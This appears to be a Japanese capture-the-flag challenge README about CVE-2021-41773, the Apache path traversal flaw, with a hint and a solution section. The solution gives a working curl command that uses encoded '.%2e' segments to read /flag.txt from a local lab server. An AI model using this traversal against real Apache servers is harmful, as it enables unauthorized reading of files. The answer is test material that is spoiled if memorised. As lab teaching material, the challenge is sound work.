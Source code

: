 # CVE-2021-41773

去年の年末、Apacheに深刻な脆弱性が見つかったと聞きました。。  
`/flag.txt` を見られると困るのですが、大丈夫でしょうか・・・？

<https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773>

## tag

web, medium

## hint

「CVE-2021-41773 検証」「CVE-2021-41773 exploit」等で調べると情報がたくさんでてきます。
肝心の場所が隠されている事が多いですが、根気強く調べてみましょう。

## exploit

```txt
curl http://localhost:8002/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt
```
